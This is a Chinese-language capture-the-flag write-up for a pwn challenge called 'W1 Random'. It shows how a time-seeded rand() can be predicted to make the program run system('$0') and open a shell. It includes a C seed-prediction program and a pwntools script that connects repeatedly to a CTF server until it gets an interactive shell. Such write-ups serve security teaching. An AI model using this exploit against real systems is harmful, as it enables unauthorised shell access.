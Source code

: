 # W1 Random

## 文件分析

下载`pwn`，保护全开  
ghidra分析为64位程序

## 解题思路

程序中有且仅有一个%d的输入，且匹配读入的int类型，所以不存在输入中的漏洞

但是将输入的数字猜对，可以执行system，不过是2$031中的某2个字符  
只要执行system("$0")，同样可以打开shell

随机值的种子是系统当前时间，种子相同，随机数相同  
故我们需要在正确的时间输入正确的随机数才能打开shell

## EXPLOIT

首先我们需要找到这个合适的时间

```c
// seedprobe.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

static char cmdlist[5] = {'2', '$', '0', '3', '1'};

int main(void) {
    time_t init = time(NULL) + 5; // 为了避免本地与服务器时间不同带来的问题，故选择5秒后开始计算
    int valid = 0;
    for (int i = 0; i < 120; i++) {
        srand(init + i);
        int guess = rand();
        char c2 = cmdlist[rand() % 5];
        char c1 = cmdlist[rand() % 2];
        if (c1 == '$' && c2 == '0') { // 模拟程序运行
            time_t tmp = init + i;
            char timestr[16];
            strftime(timestr, 16, "%m-%d %H:%M:%S ", localtime(&tmp));
            printf("%s\b, guess=%d\n", timestr, guess); // 打印时间方便卡时间测试；打印数字方便读取
            valid++;
        }
    }
    if (valid > 0) 
        printf("%d valid time stamps.\n", valid);
    else
        printf("No valid time now.\n");
    return 0;
}
```

然后在合适的时间启动gdb调试，发现可以成功打开shell，于是开始打靶

```python
from pwn import *
import time

sh = process('seedprobe') # 取第一个数字
sh.recvuntil(b'=') # skip
guess = sh.recvline()[:-1] # strip '\n'
sh.close()

while True:
    sh = remote("node4.buuoj.cn", 26447)
    sh.sendline(guess)
    if sh.recvuntil(b'Ha', timeout=1) == b'': # 超时未读到Haha...即代表已在合适的时间猜对数字
        break
    sh.close()
    time.sleep(0.5)

sh.interactive()
```

## 参考文献

[模拟攻击](http://www.asuka39.top/article/security/ctf/pwn/2064/)

Done.

